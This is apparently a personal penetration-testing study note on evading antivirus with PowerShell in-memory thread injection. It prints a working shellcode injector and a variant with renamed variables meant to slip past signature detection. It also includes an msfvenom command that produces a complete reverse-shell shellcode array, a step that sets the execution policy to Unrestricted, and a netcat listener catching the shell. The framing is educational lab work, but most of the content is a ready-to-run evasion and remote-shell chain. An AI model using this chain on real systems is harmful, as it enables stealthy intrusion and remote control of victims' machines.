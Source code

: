 
# AV Evasion via Thread Injection
You can use a [powershell](../../coding/languages/powershell.md) script to interact with the [Windows](../../computers/windows/README.md) API and implement an [In-Memory Injection](bypassing-antivirus.md#In-Memory%20Evasion)script. The benefit of using a script over a [PE](../../computers/windows/PE.md) is that it's *more difficult* for AV systems to detect a malicious script, since it's execution is *from within an interpreter* (the script itself is not executable). There are some AV products which handle malicious script detection, but not many.
## PowerShell Memory Injection
The following script carries out a *well known* version of memory injection via powershell:
```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = 0xfc,0xe8,0x8f,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28;
...

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
### Importing Functions & Creating a Thread
The script starts by importing `VirtualAlloc` (allocates memory) and `CreateThread` (creates execution threads), which are both Windows API functions. Specifically, they're being imported from the `kernel32.dll` DLL. Next, the script imports `memset` (writes arbitrary data to allocated memory) from the `msvcrt.dll` DLL. 

So, it's effectively allocating memory and then executing a new thread within the *currently running process* (and not in a remote one). 
### Allocating Memory for the Payload
Next, the script defines `sc` which is where you can *place your shell code* payload. Then, it uses `VirtualAlloc` to allocate memory for the payload. Once the appropriate length/ bytes of memory are allocated, it uses `memset` in a for loop to write our payload to the newly-allocated memory.
### Executing the Payload
Finally, it uses the `CreateThread` API to *create a new thread which will execute our payload*.
## Detection
If we were to upload this script to [Virus-Total](../../cybersecurity/TTPs/recon/tools/reverse-engineering/Virus-Total.md) as is, we would probably see the following:
![](../oscp-pics/thread-injection-1.png)28 of the 59 AV products flagged the script as malicious. But with scripts, AV vendors can only really rely on *static string signatures* related to portions of the code (like variable or function names). If we change some of the recognizable names in our script, then we can make our script less detectable.
### Changing Variable & Function Names
```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$var2 = Add-Type -memberDefinition $code -Name "iWin32" -namespace Win32Functions -passthru;

[Byte[]];   
[Byte[]] $var1 = 0xfc,0xe8,0x8f,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28
...

$size = 0x1000;

if ($var1.Length -gt 0x1000) {$size = $var1.Length};
$x = $var2::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($var1.Length-1);$i++) {$var2::memset([IntPtr]($x.ToInt32()+$i), $var1[$i], 1)};

$var2::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
We've changed `winFunc` to `var2` and we've also changed its `Name` property from the `Win32` to `iWin32`. Additionally, we've renames `sc` (our shell code) to `var1`. 
### Testing
Instead of uploading this to Virus Total again (since it will automatically be sent as a sample to all of the participating AV vendors), we can check to see if our shell script is less detectable by running it in a [VM](../../computers/containers-vms/virtual-machines.md) with one of the AV vendor products running (let's say Avira). Once the script is loaded on the VM, we can scan it with Avira (which was one of the vendors which flagged the original script in Virus Total), and see what we get.

With Avira open, we can just click Security --> Quick Scan to scan the whole VM device:
![](../oscp-pics/thread-injection-2.png)If changing the variable and function names worked, this is what we should see.
## Executing our Thread Injection
Once we've decided that our script will not be detected (in the target's environment and based on their AV implementation), we can exploit it. 
### Payload
First, we need a payload for the shell code (`sc`). We can get one from [MSFvenom](../../cybersecurity/TTPs/exploitation/tools/metasploit.md#MSFvenom):
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f powershell -v sc

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of powershell file: 1593 bytes
[Byte[]] $sc = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x33,0x32,0x0,0x0,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x7,0xff,0xd5,0xb8,0x90,0x1,0x0,0x0,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x0,0xff,0xd5,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x5,0x68,0xc0,0xa8,0x32,0x1,0x68,0x2,0x0,0x1,0xbb,0x89,0xe6,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xc,0xff,0x4e,0x8,0x75,0xec,0x68,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x68,0x63,0x6d,0x64,0x0,0x89,0xe3,0x57,0x57,0x57,0x31,0xf6,0x6a,0x12,0x59,0x56,0xe2,0xfd,0x66,0xc7,0x44,0x24,0x3c,0x1,0x1,0x8d,0x44,0x24,0x10,0xc6,0x0,0x44,0x54,0x50,0x56,0x56,0x56,0x46,0x56,0x4e,0x56,0x56,0x53,0x56,0x68,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x89,0xe0,0x4e,0x56,0x46,0xff,0x30,0x68,0x8,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x53,0xff,0xd5
```
- `-p`: the payload to use (this one is from [metasploit](../../cybersecurity/TTPs/exploitation/tools/metasploit.md) itself), can also list the parameters after it (`LHOST` and `RHOST` in this case)
- `-f`: the format for the output
- `-v`: a custom variable name (`sc` for our shell code)
### Execution
Let's run our exploit on our Windows VM (with the AV system we've been testing it against). When we execute it in powershell, we'll probagbly see the following output:
```powershell
PS C:\Users\offsec\Desktop> .\bypass.ps1
.\bypass.ps1 : File C:\Users\offsec\Desktop\bypass.ps1 cannot be loaded because running scripts is disabled on this
system. For more information, see about_Execution_Policies at https:/go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1
+ .\bypass.ps1
+ ~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess
```
This is because the system's *Execution Policy* prevented our script from running. Execution Policies (in Windows) are set on a *per user* basis. Execution Policies are sometimes dictated by one or more [Active Directory](../../computers/windows/active-directory/active-directory.md#Active%20Directory) Group Policies (GPOs). But if they aren't then we can try to change the policy *for our current user*. 
#### Changing the User's Execution Policy
First, we need to use `Get-ExecutionPolicy` to see what the current policy is:
```powershell
PS C:\Users\offsec\Desktop> Get-ExecutionPolicy -Scope CurrentUser
Undefined
```
Right now, it's listed as `Undefined`. Next, we can try to set our new policy by useing the `Set-ExecutionPolicy` cmdlet. We're going to give it the `ExecutionPolicy` flag (to set the new policy as `Unrestricted`) and the `Scope` flag (to limit the change to the current user). 
```powershell
PS C:\Users\offsec\Desktop> Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help Module at
https:/go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): A

PS C:\Users\offsec\Desktop> Get-ExecutionPolicy -Scope CurrentUser
Unrestricted
```
### Listener
Now that we can execute our script, we need to start our [netcat](../../cybersecurity/TTPs/exploitation/tools/netcat.md) listener to listen for our reverse shell:
```bash
nc -lvnp 443
listening on [any] 443 ...
```
Now we can execute our script from the windows VM and see what we get on our netcat listener:
```bash
nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.50.1] from (UNKNOWN) [192.168.50.62] 64613
Microsoft Windows [Version 10.0.22000.675]
(c) Microsoft Corporation. All rights reserved.

C:\Users\offsec>whoami
whoami
client01\offsec

C:\Users\offsec>hostname
hostname
client01
```
If we get the reverse shell, that means *we successfully evaded the AV system on the VM*. 

> [!Resources]
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.
